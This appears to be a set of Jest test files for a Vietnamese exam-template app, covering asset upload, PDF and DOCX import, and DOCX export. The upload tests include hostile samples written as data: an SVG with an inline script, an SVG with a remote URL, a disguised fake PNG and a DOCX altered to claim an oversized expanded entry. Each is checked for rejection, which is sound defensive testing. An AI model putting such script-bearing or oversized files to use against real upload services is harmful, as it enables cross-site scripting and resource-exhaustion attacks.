jest.mock('pdf-parse', () => ({ PDFParse: jest.fn().mockImplementation(() => ({ getInfo: mockGetInfo, getText: mockGetText, getScreenshot: mockGetScreenshot, destroy: mockDestroy })) }));
jest.mock('../../backend/documentConvert/docxToPdf', () => ({ docxToPdf: (...args) => mockDocxToPdf(...args) }));
const backgroundRoutes = require('../../backend/routes/backgroundRoutes');

let tmp;
beforeEach(async () => {
  tmp = await fs.mkdtemp(path.join(os.tmpdir(), 'exam-assets-'));
  process.env.EXAM_BACKGROUNDS_DIR = path.join(tmp, 'backgrounds');
  process.env.EXAM_TEMPLATE_ASSETS_DIR = path.join(tmp, 'assets');
  mockGetText.mockReset();
  mockGetInfo.mockReset();
  mockGetInfo.mockResolvedValue({ total: 1 });
  mockGetScreenshot.mockReset();
  mockDestroy.mockClear();
  mockDocxToPdf.mockReset();
});
afterEach(async () => {
  delete process.env.EXAM_BACKGROUNDS_DIR;
  delete process.env.EXAM_TEMPLATE_ASSETS_DIR;
  await fs.rm(tmp, { recursive: true, force: true });
});
function app() { const a = express(); a.use('/api/backgrounds', backgroundRoutes); return a; }
const png = Buffer.concat([Buffer.from([137, 80, 78, 71, 13, 10, 26, 10]), Buffer.alloc(12)]);

test('legacy GET list and secure image upload with checksum metadata', async () => {
  const uploaded = await request(app()).post('/api/backgrounds/upload').attach('file', png, 'paper.png');
  expect(uploaded.status).toBe(200);
  expect(uploaded.body.asset.mime).toBe('image/png');
  expect(uploaded.body.asset.sha256).toMatch(/^[0-9a-f]{64}$/);
  const listed = await request(app()).get('/api/backgrounds');
  expect(listed.body).toEqual([uploaded.body.asset.filename]);
  const assets = await request(app()).get('/api/backgrounds/assets');
  expect(assets.body.assets[0].asset_id).toBe(uploaded.body.asset.asset_id);
});

test('reject disguised image and active SVG', async () => {
  expect((await request(app()).post('/api/backgrounds/upload').attach('file', Buffer.from('not png'), 'fake.png')).status).toBe(400);
  const active = Buffer.from('<svg xmlns="http://www.w3.org/2000/svg"><script>alert(1)</script></svg>');
  expect((await request(app()).post('/api/backgrounds/upload').attach('file', active, 'active.svg')).status).toBe(400);
  const safe = Buffer.from('<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100"><rect x="0" y="0" width="100" height="100" fill="#fff"/></svg>');
  expect((await request(app()).post('/api/backgrounds/upload').attach('file', safe, 'safe.svg')).status).toBe(200);
  const malformed = Buffer.from('<svg xmlns="http://www.w3.org/2000/svg"><g><rect width="1" height="1"/></svg>');
  expect((await request(app()).post('/api/backgrounds/upload').attach('file', malformed, 'malformed.svg')).status).toBe(400);
  const remote = Buffer.from('<svg xmlns="http://www.w3.org/2000/svg"><rect fill="url(https://example.com/a)"/></svg>');
  expect((await request(app()).post('/api/backgrounds/upload').attach('file', remote, 'remote.svg')).status).toBe(400);
});

test('DOCX structure mode extracts native text and requires review', async () => {
  const doc = new Document({ sections: [{ children: [new Paragraph('PHAN I'), new Paragraph('Cau 1: Hai cong hai bang may?')] }] });
  const buffer = await Packer.toBuffer(doc);
  const response = await request(app()).post('/api/backgrounds/import').field('mode', 'structure').attach('file', buffer, 'questions.docx');
  expect(response.status).toBe(200);
  expect(response.body.extraction).toBe('native_text');
  expect(response.body.sections[0].questions[0].text).toContain('Cau 1');
  expect(response.body.review_required).toBe(true);
});

test('DOCX background mode rasterizes pages when the optional converter is available', async () => {
  const doc = new Document({ sections: [{ children: [new Paragraph('School exam template')] }] });
  const buffer = await Packer.toBuffer(doc);
  mockDocxToPdf.mockResolvedValue(Buffer.from('%PDF-1.7\nrendered\n%%EOF'));
  mockGetText.mockResolvedValue({ text: 'School exam template' });
  mockGetScreenshot.mockResolvedValue({ pages: [{ pageNumber: 1, width: 960, height: 1200, data: png }] });
  const response = await request(app()).post('/api/backgrounds/import').field('mode', 'background').attach('file', buffer, 'template.docx');
  expect(response.status).toBe(200);
  expect(mockDocxToPdf).toHaveBeenCalledWith(buffer);
  expect(response.body.background_pages).toHaveLength(1);
  expect(response.body.background_pages[0].page_number).toBe(1);
});

test('DOCX background mode preserves the original and explains fallback when conversion fails', async () => {
  const doc = new Document({ sections: [{ children: [new Paragraph('Original template')] }] });
  const buffer = await Packer.toBuffer(doc);
  mockDocxToPdf.mockRejectedValue(new Error('Word unavailable'));
  mockGetText.mockResolvedValue({ text: 'Original template' });
  const response = await request(app()).post('/api/backgrounds/import').field('mode', 'background').attach('file', buffer, 'template.docx');
  expect(response.status).toBe(200);
  expect(response.body.background_pages).toEqual([]);
  expect(response.body.asset.url).toMatch(/\/file$/);
  expect(response.body.warnings.join(' ')).toMatch(/Microsoft Word/);
});

test('PDF scan path stores original and flags manual review without OCR', async () => {
  mockGetText.mockResolvedValue({ text: '' });
  mockGetScreenshot.mockResolvedValue({ pages: [{ pageNumber: 1, width: 960, height: 1200, data: png }] });
  const buffer = Buffer.from('%PDF-1.7\nscan\n%%EOF');
  const response = await request(app()).post('/api/backgrounds/import').field('mode', 'background').attach('file', buffer, 'scan.pdf');
  expect(response.status).toBe(200);
  expect(response.body.extraction).toBe('none');
  expect(response.body.background_pages).toHaveLength(1);
  expect(response.body.background_pages[0]).toMatchObject({ page_number: 1, width: 960, height: 1200 });
  expect(response.body.warnings.join(' ')).toMatch(/OCR khong duoc trien khai/);
  const downloaded = await request(app()).get(response.body.asset.url);
  expect(downloaded.status).toBe(200);
  expect(downloaded.headers['content-disposition']).toMatch(/^attachment/);
});

test('PDF background renders pages beyond the former ten page limit', async () => {
  mockGetText.mockResolvedValue({ text: 'some native text' });
  mockGetInfo.mockResolvedValue({ total: 14 });
  mockGetScreenshot.mockImplementation(async ({ partial }) => ({ pages: [{ pageNumber: partial[0], width: 960, height: 1200, data: png }] }));
  const pdf = Buffer.from('%PDF-1.7\ntext\n%%EOF');
  const response = await request(app()).post('/api/backgrounds/import').field('mode', 'background').attach('file', pdf, 'twelve.pdf');
  expect(response.status).toBe(200);
  expect(response.body.background_pages).toHaveLength(14);
  expect(mockGetScreenshot).toHaveBeenCalledTimes(14);
});

test('PDF raster failure retains original and warns without claiming pages', async () => {
  mockGetText.mockResolvedValue({ text: '' });
  mockGetScreenshot.mockRejectedValue(new Error('canvas unavailable'));
  const pdf = Buffer.from('%PDF-1.7\nscan\n%%EOF');
  const response = await request(app()).post('/api/backgrounds/import').field('mode', 'background').attach('file', pdf, 'scan.pdf');
  expect(response.status).toBe(200);
  expect(response.body.background_pages).toEqual([]);
  expect(response.body.asset.url).toMatch(/\/file$/);
  expect(response.body.warnings.join(' ')).toMatch(/Khong chuyen duoc trang 1/);
});

test('import requires explicit mode and valid magic', async () => {
  const pdf = Buffer.from('%PDF-1.7\ntext\n%%EOF');
  expect((await request(app()).post('/api/backgrounds/import').attach('file', pdf, 'x.pdf')).status).toBe(400);
  expect((await request(app()).post('/api/backgrounds/import').field('mode', 'structure').attach('file', Buffer.from('fake pdf'), 'x.pdf')).status).toBe(400);
});

test('reject DOCX central directory claiming oversized expanded entry', async () => {
  const doc = new Document({ sections: [{ children: [new Paragraph('Small content')] }] });
  const buffer = await Packer.toBuffer(doc);
  const modified = Buffer.from(buffer);
  const central = modified.indexOf(Buffer.from([0x50, 0x4b, 0x01, 0x02]));
  expect(central).toBeGreaterThan(0);
  modified.writeUInt32LE(51 * 1024 * 1024, central + 24);
  const response = await request(app()).post('/api/backgrounds/import').field('mode', 'structure').attach('file', modified, 'bomb.docx');
  expect(response.status).toBe(400);
});

test('reject PDF over page or extracted text limits', async () => {
  const pdf = Buffer.from('%PDF-1.7\ntext\n%%EOF');
  mockGetInfo.mockResolvedValueOnce({ total: 101 });
  const tooManyPages = await request(app()).post('/api/backgrounds/import').field('mode', 'structure').attach('file', pdf, 'long.pdf');
  expect(tooManyPages.status).toBe(400);
  mockGetText.mockResolvedValueOnce({ text: 'a'.repeat(1024 * 1024 + 1) });
  const tooMuchText = await request(app()).post('/api/backgrounds/import').field('mode', 'structure').attach('file', pdf, 'text.pdf');
  expect(tooMuchText.status).toBe(400);
});

test('PDF over the raster page limit keeps the source file and declares a manual fallback', async () => {
  const pdf = Buffer.from('%PDF-1.7\nlarge-original\n%%EOF');
  mockGetInfo.mockResolvedValue({ total: 101 });
  const response = await request(app()).post('/api/backgrounds/import').field('mode', 'background').attach('file', pdf, 'very-long.pdf');
  expect(response.status).toBe(200);
  expect(response.body.background_pages).toEqual([]);
  expect(response.body.extraction).toBe('not_processed');
  expect(response.body.warnings.join(' ')).toMatch(/da duoc luu nguyen ven/);
  expect(response.body.asset_manifest[0]).toMatchObject({ role: 'source_document', sha256: expect.any(String), transfer: 'reference_only' });
  const download = await request(app()).get(response.body.asset.url);
  expect(download.status).toBe(200);
  expect(download.body).toEqual(pdf);
});

```

### FILE: tests/templateExport/templateExport.test.js

```javascript
const mammoth = require('mammoth');
const JSZip = require('jszip');
const fs = require('fs');
const os = require('os');
const path = require('path');
const crypto = require('crypto');
const { createCanvas } = require('@napi-rs/canvas');
const express = require('express');
const request = require('supertest');
const { createTemplateDocx, analyzeTemplateExport } = require('../../backend/templateExport');
const route = require('../../backend/routes/templateExportRoutes');
const { getSeed, listSeeds } = require('../../backend/templates/seeds');

const template = { template_id: 'custom.export', display_name: 'Đề Toán', defaults: { subject: 'Toán', grade: '6', duration_minutes: 45 }, sections: [{ section_id: 's1', title: 'Trắc nghiệm', slots: [{ slot_id: 'q1', points: '2.00', question_type: 'MCQ', answer_space: { kind: 'lined', lines: 3 } }] }] };
const content = { q1: { content: 'Hai cộng hai bằng mấy?', correct_answer: 'D', explanation: 'Vì 2 + 2 = 4.', options: [{ option_key: 'A', option_text: '1', is_correct: false }, { option_key: 'B', option_text: '2', is_correct: false }, { option_key: 'C', option_text: '3', is_correct: false }, { option_key: 'D', option_text: '4', is_correct: true }] } };

test('student DOCX is editable text and contains no answer or rationale', async () => {
  const { buffer } = await createTemplateDocx({ template, content, mode: 'student', paper: { size: 'A5', orientation: 'landscape' } });
  expect(buffer.subarray(0, 2).toString()).toBe('PK');
  const extracted = (await mammoth.extractRawText({ buffer })).value;
  expect(extracted).toContain('Hai cộng hai bằng mấy?');
  expect(extracted).toContain('Trắc nghiệm');
  expect(extracted).not.toContain('Đáp án:');
  expect(extracted).not.toContain('Vì 2 + 2 = 4.');
});

test('teacher, key and combined modes include full solution', async () => {
  for (const mode of ['teacher', 'answer_key', 'combined']) {
    const { buffer } = await createTemplateDocx({ template, content, mode });
    const extracted = (await mammoth.extractRawText({ buffer })).value;
    expect(extracted).toContain('Đáp án: D');
    expect(extracted).toContain('Vì 2 + 2 = 4.');
    if (mode === 'answer_key') expect(extracted).not.toContain('Hai cộng hai bằng mấy?');
  }
});

test('max pages produces warning without dropping content', async () => {
  const large = structuredClone(template);
  large.sections[0].slots[0].answer_space.lines = 50;
  const analysis = analyzeTemplateExport({ template: large, content, maxPages: 1 });
  expect(analysis.warnings.some(x => x.code === 'MAX_PAGES_ESTIMATE')).toBe(true);
  const { buffer } = await createTemplateDocx({ template: large, content, maxPages: 1 });
  expect((await mammoth.extractRawText({ buffer })).value).toContain('Hai cộng hai bằng mấy?');
});

test('HTTP analyze and DOCX download expose honest pagination estimate', async () => {
  const app = express();
  app.use(express.json());
  app.use('/api/template-export', route);
  const analysis = await request(app).post('/api/template-export/analyze').send({ template, content, mode: 'student' }).expect(200);
  expect(analysis.body.success).toBe(true);
  const file = await request(app).post('/api/template-export/docx').send({ template, content, mode: 'student' }).expect(200);
  expect(file.headers['content-type']).toContain('wordprocessingml.document');
  expect(Number(file.headers['x-estimated-pages'])).toBeGreaterThan(0);
});

test('grid, table and drawing answer spaces create bounded Word table cells', async () => {
  for (const kind of ['squared', 'table', 'drawing', 'blank']) {
    const variant = structuredClone(template);
    variant.sections[0].slots[0].answer_space = { kind, lines: 3 };
    const { buffer } = await createTemplateDocx({ template: variant, content, mode: 'student' });
    const zip = await JSZip.loadAsync(buffer);
    const xml = await zip.file('word/document.xml').async('string');
    expect(xml).toContain('<w:tbl>');
    expect((xml.match(/<w:tc>/g) || []).length).toBe(kind === 'squared' ? 24 : kind === 'table' ? 9 : 1);
    expect(xml).not.toContain('[Vùng trả lời:');
  }
});

test('T09 uses two columns and T10 includes reading passage in DOCX', async () => {
  const compact = getSeed('builtin.t09');
  const compactDoc = await createTemplateDocx({ template: compact, mode: 'student', columns: compact.appearance.columns });
  const compactZip = await JSZip.loadAsync(compactDoc.buffer);
  const compactXml = await compactZip.file('word/document.xml').async('string');
  expect(compactXml).toMatch(/<w:cols[^>]*w:num="2"/);

  const reading = getSeed('builtin.t10');
  reading.sections[0].stimulus = 'READING PASSAGE FOR SECTION ONE';
  const readingDoc = await createTemplateDocx({ template: reading, mode: 'student' });
  expect((await mammoth.extractRawText({ buffer: readingDoc.buffer })).value).toContain('READING PASSAGE FOR SECTION ONE');
});

test.each(listSeeds())('all export modes produce readable DOCX for %s', async seed => {
  for (const mode of ['student', 'teacher', 'answer_key', 'combined']) {
    const { buffer } = await createTemplateDocx({ template: seed, mode });
    expect(buffer.subarray(0, 2).toString()).toBe('PK');
    const text = (await mammoth.extractRawText({ buffer })).value;
    if (mode === 'answer_key') expect(text).toContain('ĐÁP ÁN VÀ HƯỚNG DẪN CHẤM');
    else expect(text).toContain(seed.display_name);
    if (mode === 'student') expect(text).not.toContain('Đáp án:');
  }
}, 30000);

test('header/footer follow appearance config and expose page number', async () => {
  const midterm = getSeed('builtin.t03');
  const doc = await createTemplateDocx({ template: midterm, mode: 'student', metadata: { school: 'THCS Mau' } });
  const zip = await JSZip.loadAsync(doc.buffer);
  const headerName = Object.keys(zip.files).find(x => /^word\/header\d+\.xml$/.test(x));
  const footerName = Object.keys(zip.files).find(x => /^word\/footer\d+\.xml$/.test(x));
  expect(headerName).toBeTruthy();
  expect(footerName).toBeTruthy();
  const headerXml = await zip.file(headerName).async('string');
  expect(headerXml).toContain('THCS Mau');
  expect(headerXml).toContain('Đề giữa học kỳ');
  const footerXml = await zip.file(footerName).async('string');
  expect(footerXml).toMatch(/PAGE/);
});

test('disabled footer omits page number in DOCX', async () => {
  const short = getSeed('builtin.t01');
  expect(short.appearance.footer.enabled).toBe(false);
  const doc = await createTemplateDocx({ template: short, mode: 'student' });
  const zip = await JSZip.loadAsync(doc.buffer);
  expect(Object.keys(zip.files).find(x => /^word\/footer\d+\.xml$/.test(x))).toBeUndefined();
});

test('manual region slots warn they are not applied in DOCX', () => {
  const variant = structuredClone(template);
  variant.sections[0].slots[0].manual_region = { page_number: 2, x_pct: 10, y_pct: 20, width_pct: 80, height_pct: 10 };
  const analysis = analyzeTemplateExport({ template: variant, content });
  expect(analysis.warnings.some(x => x.code === 'MANUAL_REGION_NOT_APPLIED')).toBe(true);
});

test('manual regions overlay text at page coordinates and use each page background', async () => {
  const directory = fs.mkdtempSync(path.join(os.tmpdir(), 'exam-docx-pages-'));
  const previous = process.env.EXAM_BACKGROUNDS_DIR;
  try {
    process.env.EXAM_BACKGROUNDS_DIR = directory;
    const { createCanvas } = require('@napi-rs/canvas');
    const pageAssets = [0, 1].map(index => {
      const canvas = createCanvas(12, 12);
      const ctx = canvas.getContext('2d'); ctx.fillStyle = index ? '#ff0000' : '#0000ff'; ctx.fillRect(0, 0, 12, 12);
      const data = canvas.toBuffer('image/png');
      const sha256 = crypto.createHash('sha256').update(data).digest('hex');
      const asset_id = `image-${sha256}`;
      const filename = `${asset_id}.png`;
      fs.writeFileSync(path.join(directory, filename), data);
      fs.writeFileSync(path.join(directory, `${asset_id}.json`), JSON.stringify({ asset_id, filename, mime: 'image/png', size: data.length, sha256 }));
      return { page_number: index + 1, asset_id };
    });
    const variant = structuredClone(template);
    variant.sections[0].slots.push({ slot_id: 'q2', points: '1.00', question_type: 'ESSAY', answer_space: { kind: 'blank', lines: 2 } });
    variant.appearance = { background: { asset_id: pageAssets[0].asset_id, pages: pageAssets } };
    variant.sections[0].slots[0].manual_region = { page_number: 1, x_pct: 10, y_pct: 15, width_pct: 75, height_pct: 20 };
    variant.sections[0].slots[1].manual_region = { page_number: 2, x_pct: 12, y_pct: 40, width_pct: 70, height_pct: 25 };
    const analysis = analyzeTemplateExport({ template: variant, content: { ...content, q2: { content: 'Câu tự luận trên trang hai' } } });
    expect(analysis.warnings.some(x => x.code === 'MANUAL_REGION_NOT_APPLIED')).toBe(false);
    expect(analysis.warnings.some(x => x.code === 'MANUAL_REGION_RASTERIZED')).toBe(true);
    const doc = await createTemplateDocx({ template: variant, content: { ...content, q2: { content: 'Câu tự luận trên trang hai' } }, mode: 'student' });
    const zip = await JSZip.loadAsync(doc.buffer);
    const documentXml = await zip.file('word/document.xml').async('string');
    expect((documentXml.match(/<wp:anchor/g) || []).length).toBe(2);
    expect(documentXml).toContain('Câu tự luận trên trang hai');
    expect(documentXml).toContain('<wp:posOffset>756000</wp:posOffset>');
    expect(documentXml).toContain('<wp:posOffset>1603800</wp:posOffset>');
    const headers = Object.keys(zip.files).filter(name => /^word\/header\d+\.xml$/.test(name));
    expect(headers.length).toBeGreaterThanOrEqual(2);
    const headerXml = await Promise.all(headers.map(name => zip.file(name).async('string')));
    expect(headerXml.some(xml => xml.includes('r:embed'))).toBe(true);
  } finally {
    if (previous === undefined) delete process.env.EXAM_BACKGROUNDS_DIR;
    else process.env.EXAM_BACKGROUNDS_DIR = previous;
    fs.rmSync(directory, { recursive: true, force: true });
  }
});

test('manual region that cannot fit stays as editable flow text and is never clipped silently', async () => {
  const directory = fs.mkdtempSync(path.join(os.tmpdir(), 'exam-docx-overflow-'));
  const previous = process.env.EXAM_BACKGROUNDS_DIR;
  try {
    const data = Buffer.from('iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8/x8AAwMCAO+/lXcAAAAASUVORK5CYII=', 'base64');
    const sha256 = crypto.createHash('sha256').update(data).digest('hex');
    const asset_id = `image-${sha256}`; const filename = `${asset_id}.png`;
    fs.writeFileSync(path.join(directory, filename), data);
    fs.writeFileSync(path.join(directory, `${asset_id}.json`), JSON.stringify({ asset_id, filename, mime: 'image/png', size: data.length, sha256 }));
    process.env.EXAM_BACKGROUNDS_DIR = directory;
    const variant = structuredClone(template);
    variant.appearance = { background: { pages: [{ page_number: 1, asset_id }] } };
    variant.sections[0].slots[0].manual_region = { page_number: 1, x_pct: 1, y_pct: 1, width_pct: 2, height_pct: 2 };
    const longContent = 'Nội dung câu dài cần được giữ lại khi vùng tọa độ quá nhỏ '.repeat(20);
    const result = await createTemplateDocx({ template: variant, content: { q1: { content: longContent } }, mode: 'student' });
    expect(result.analysis.warnings.some(w => w.code === 'MANUAL_REGION_OVERFLOW')).toBe(true);
    expect((await mammoth.extractRawText({ buffer: result.buffer })).value).toContain(longContent);
  } finally {
    if (previous === undefined) delete process.env.EXAM_BACKGROUNDS_DIR;
    else process.env.EXAM_BACKGROUNDS_DIR = previous;
    fs.rmSync(directory, { recursive: true, force: true });
  }
});

test('background warning uses current appearance schema', () => {
  const variant = structuredClone(template);
  variant.appearance = { background: { asset_id: 'asset-1' } };
  expect(analyzeTemplateExport({ template: variant, content }).warnings.some(x => x.code === 'BACKGROUND_NOT_EMBEDDED')).toBe(true);
});

test('managed PNG background and slot illustration are embedded with checksum', async () => {
  const directory = fs.mkdtempSync(path.join(os.tmpdir(), 'exam-docx-asset-'));
  const previous = process.env.EXAM_BACKGROUNDS_DIR;
  try {
    const data = Buffer.from('iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8/x8AAwMCAO+/lXcAAAAASUVORK5CYII=', 'base64');
    const sha256 = crypto.createHash('sha256').update(data).digest('hex');
    const asset_id = `image-${sha256}`;
    const filename = `${asset_id}.png`;
    fs.writeFileSync(path.join(directory, filename), data);
    fs.writeFileSync(path.join(directory, `${asset_id}.json`), JSON.stringify({ asset_id, filename, mime: 'image/png', size: data.length, sha256 }));
    process.env.EXAM_BACKGROUNDS_DIR = directory;
    const variant = structuredClone(template);
    variant.appearance = { background: { asset_id, apply_to: 'all' } };
    variant.sections[0].slots[0].assets = [{ asset_id, caption: 'Hình minh họa' }];
    const analysis = analyzeTemplateExport({ template: variant, content });
    expect(analysis.warnings.some(x => x.code === 'BACKGROUND_NOT_EMBEDDED' || x.code === 'ASSET_NOT_EMBEDDED')).toBe(false);
    const { buffer } = await createTemplateDocx({ template: variant, content, mode: 'student' });
    const zip = await JSZip.loadAsync(buffer);
    expect(Object.keys(zip.files).filter(x => x.startsWith('word/media/')).length).toBeGreaterThanOrEqual(1);
    const documentXml = await zip.file('word/document.xml').async('string');
    const header = Object.keys(zip.files).find(x => /^word\/header\d+\.xml$/.test(x));
    expect(header).toBeTruthy();
    expect(documentXml).toContain('Hình minh họa');
    expect(await zip.file(header).async('string')).toContain('behindDoc="1"');
    variant.appearance.background.apply_to = 'first';
    const firstOnly = await createTemplateDocx({ template: variant, content, mode: 'student' });
    const firstZip = await JSZip.loadAsync(firstOnly.buffer);
    const firstXml = await firstZip.file('word/document.xml').async('string');
    expect(firstXml).toContain('<w:titlePg');
    expect(firstXml).toMatch(/<w:footerReference[^>]*w:type="first"/);
    // Do mo duoc tron san vao anh nen (Word khong giu opacity cua CSS).
    const red = createCanvas(4, 4); const rctx = red.getContext('2d'); rctx.fillStyle = '#ff0000'; rctx.fillRect(0, 0, 4, 4);
    const redData = red.toBuffer('image/png');
    const redSha = crypto.createHash('sha256').update(redData).digest('hex');
    const redId = `image-${redSha}`;
    fs.writeFileSync(path.join(directory, `${redId}.png`), redData);
    fs.writeFileSync(path.join(directory, `${redId}.json`), JSON.stringify({ asset_id: redId, filename: `${redId}.png`, mime: 'image/png', size: redData.length, sha256: redSha }));
    const faded = structuredClone(template);
    faded.appearance = { background: { asset_id: redId, apply_to: 'all', opacity: 0.2 } };
    expect(analyzeTemplateExport({ template: faded, content }).warnings.map(x => x.code)).toContain('BACKGROUND_OPACITY_BAKED');
    const fadedZip = await JSZip.loadAsync((await createTemplateDocx({ template: faded, content, mode: 'student' })).buffer);
    const media = Object.keys(fadedZip.files).filter(x => x.startsWith('word/media/') && !fadedZip.files[x].dir);
    const { Image } = require('@napi-rs/canvas');
    const img = new Image(); img.src = await fadedZip.file(media[0]).async('nodebuffer'); await img.decode();
    const probe = createCanvas(4, 4); const pctx = probe.getContext('2d'); pctx.drawImage(img, 0, 0);
    const [r, g, b] = pctx.getImageData(1, 1, 1, 1).data;
    expect(r).toBe(255);
    expect(g).toBeGreaterThan(190); // trang 80% + do 20% ~ (255, 204, 204)
    expect(b).toBeGreaterThan(190);
    fs.writeFileSync(path.join(directory, filename), Buffer.from('tampered'));
    expect(analyzeTemplateExport({ template: variant, content }).warnings.some(x => x.code === 'BACKGROUND_NOT_EMBEDDED')).toBe(true);
  } finally {
    if (previous === undefined) delete process.env.EXAM_BACKGROUNDS_DIR;
    else process.env.EXAM_BACKGROUNDS_DIR = previous;
    fs.rmSync(directory, { recursive: true, force: true });
  }
});

test('managed WebP and safe SVG assets rasterize to PNG inside DOCX', async () => {
  const directory = fs.mkdtempSync(path.join(os.tmpdir(), 'exam-docx-vector-'));
  const previous = process.env.EXAM_BACKGROUNDS_DIR;
  try {
    const canvas = createCanvas(8, 8);
    canvas.getContext('2d').fillRect(0, 0, 8, 8);
    const assets = [
      { ext: 'webp', mime: 'image/webp', data: canvas.toBuffer('image/webp') },
      { ext: 'svg', mime: 'image/svg+xml', data: Buffer.from('<svg xmlns="http://www.w3.org/2000/svg" width="8" height="8" viewBox="0 0 8 8"><rect width="8" height="8" fill="#0080ff"/></svg>') }
    ];
    process.env.EXAM_BACKGROUNDS_DIR = directory;
    const ids = assets.map(({ ext, mime, data }) => {
      const sha256 = crypto.createHash('sha256').update(data).digest('hex');
      const asset_id = `image-${sha256}`;
      const filename = `${asset_id}.${ext}`;
      fs.writeFileSync(path.join(directory, filename), data);
      fs.writeFileSync(path.join(directory, `${asset_id}.json`), JSON.stringify({ asset_id, filename, mime, size: data.length, sha256 }));
      return asset_id;
    });
    for (const asset_id of ids) {
      const variant = structuredClone(template);
      variant.appearance = { background: { asset_id, apply_to: 'all' } };
      const { buffer } = await createTemplateDocx({ template: variant, content, mode: 'student' });
      const zip = await JSZip.loadAsync(buffer);
      const media = Object.keys(zip.files).filter(name => name.startsWith('word/media/') && !zip.files[name].dir);
      expect(media).toHaveLength(1);
      const embedded = await zip.file(media[0]).async('nodebuffer');
      expect(embedded.subarray(0, 8)).toEqual(Buffer.from([137, 80, 78, 71, 13, 10, 26, 10]));
      // Pixel phai co mau that: truoc day WebP bi ve truoc khi giai ma xong -> PNG trong suot.
      const { Image } = require('@napi-rs/canvas');
      const img = new Image(); img.src = embedded; await img.decode();
      const probe = createCanvas(8, 8).getContext('2d'); probe.drawImage(img, 0, 0);
      expect(probe.getImageData(4, 4, 1, 1).data[3]).toBe(255);
    }
  } finally {
    if (previous === undefined) delete process.env.EXAM_BACKGROUNDS_DIR;
    else process.env.EXAM_BACKGROUNDS_DIR = previous;
    fs.rmSync(directory, { recursive: true, force: true });
  }
});

test('middle and last background scope without per-page assets warn and use the single image', () => {
  for (const apply_to of ['middle', 'last']) {
    const variant = structuredClone(template);
    variant.appearance = { background: { asset_id: 'image-' + 'a'.repeat(64), apply_to } };
    const analysis = analyzeTemplateExport({ template: variant, content });
    const w = analysis.warnings.find(x => x.code === 'BACKGROUND_SCOPE_LIMIT');
    expect(w).toBeTruthy();
    expect(w.message).toMatch(/manifest ảnh cho từng trang/);
  }
});

test('TC-EXP-MATH: DOCX lam phang LaTeX, co o Dung/Sai, diem phan va dap an Dung/Sai tieng Viet', async () => {
  const tpl = { template_id: 'custom.math', display_name: 'Toán', defaults: {}, sections: [{ section_id: 's1', title: 'Phần 1', declared_points: '3.00', slots: [
    { slot_id: 'm1', points: '2.00', question_type: 'ESSAY', answer_space: { kind: 'lined', lines: 1 } },
    { slot_id: 't1', points: '1.00', question_type: 'TRUE_FALSE', answer_space: { kind: 'none', lines: 0 } }
  ] }] };
  const data = {
    m1: { content: String.raw`Tính $\sqrt{16}$`, correct_answer: '$4$', explanation: 'Vì $4^2 = 16$' },
    t1: { content: 'Số 2 là số nguyên tố.', correct_answer: 'Dung', explanation: 'Chỉ có hai ước.' }
  };
  const student = (await mammoth.extractRawText({ buffer: (await createTemplateDocx({ template: tpl, content: data, mode: 'student' })).buffer })).value;
  expect(student).not.toContain('$');
  expect(student).not.toContain(String.raw`\sqrt`);
  expect(student).toContain('√');
  expect(student).toContain('☐ Đúng');
  expect(student).toContain('Phần 1 (3.00 điểm)');
  const teacher = (await mammoth.extractRawText({ buffer: (await createTemplateDocx({ template: tpl, content: data, mode: 'teacher' })).buffer })).value;
  expect(teacher).toContain('Đáp án: Đúng');
  expect(teacher).not.toContain('$');
});

```

### FILE: tests/templatePrompts/routes.test.js

```javascript
const express = require('express');
const request = require('supertest');
const router = require('../../backend/routes/templatePromptRoutes');

const app = express();
app.use(express.json());
app.use('/api/template-prompts', router);

const template = { template_id: 'custom.one', template_version: 1, display_name: 'Một câu', sections: [{ section_id: 's1', title: 'Một', slots: [{ slot_id: 'q1', question_type: 'MCQ', difficulty_level: 'NB', points: '1.00', answer_space: { kind: 'none', lines: 0 } }] }] };
const answer = '=PHAN_1=\n[CAU_HOI]\nMa_Khung: q1\nMa_Phan: s1\nDiem: 1.00\nLoai: TN\nMuc_Do: Nhan_Biet\nDe_Bai: 2 + 2 = ?\nA. 1\nB. 2\nC. 3\nD. 4\nDap_An: D\nLoi_Giai: 2 cộng 2 bằng 4.\nSo_Dong_Nhap: 0';

test('build and prepare routes return bounded drafts', async () => {
  const built = await request(app).post('/api/template-prompts/build').send({ template, aiVariant: 'Grok' }).expect(200);
  expect(built.body.success).toBe(true);
  expect(built.body.targetSlotIds).toEqual(['q1']);
  const prepared = await request(app).post('/api/template-prompts/prepare').send({ template, rawText: answer }).expect(200);
  expect(prepared.body.draft.valid).toBe(true);
  expect(prepared.body.draft.assignments[0].slot_id).toBe('q1');
  const bad = await request(app).post('/api/template-prompts/build').send({ template, aiVariant: 'unsupported' }).expect(400);
  expect(bad.body.success).toBe(false);
});

```

### FILE: tests/templatePrompts/templatePrompts.test.js

```javascript
const { buildTemplatePrompt, parseTemplateResponse, parseTemplateReviewReport, prepareTemplateApply, applyTemplateDraft, VARIANTS } = require('../../backend/templatePrompts');

const template = {
  template_id: 'builtin.t07', template_version: 1, display_name: 'Đề kết hợp',
  defaults: { subject: 'Toán', grade: '6', topic: 'Số nguyên', duration_minutes: 45 },
  sections: [
    { section_id: 'builtin.t07.s01', title: 'Trắc nghiệm', slots: [
      { slot_id: 'builtin.t07.s01.q001', question_type: 'MCQ', difficulty_level: 'NB', points: '1.00', required: true, answer_space: { kind: 'none', lines: 0 }, content: null }
    ] },
    { section_id: 'builtin.t07.s02', title: 'Tự luận', slots: [
      { slot_id: 'builtin.t07.s02.q001', question_type: 'ESSAY', difficulty_level: 'VD', points: '2.00', required: true, answer_space: { kind: 'lined', lines: 8 }, content: null }
    ] }
  ]
};
const mcq = `[CAU_HOI]\nMa_Khung: builtin.t07.s01.q001\nMa_Phan: builtin.t07.s01\nDiem: 1.00\nLoai: TN\nMuc_Do: Nhan_Biet\nDe_Bai: Tính 2 + 3.\nA. 4\nB. 5\nC. 6\nD. 7\nDap_An: B\nLoi_Giai: 2 cộng 3 bằng 5.\nSo_Dong_Nhap: 0`;
const essay = `[CAU_HOI]\nMa_Khung: builtin.t07.s02.q001\nMa_Phan: builtin.t07.s02\nDiem: 2.00\nLoai: TU_LUAN\nMuc_Do: Van_Dung\nDe_Bai: Giải x + 1 = 3.\nDap_An: x = 2.\nLoi_Giai: Trừ 1 hai vế, được x = 2.\nSo_Dong_Nhap: 8`;
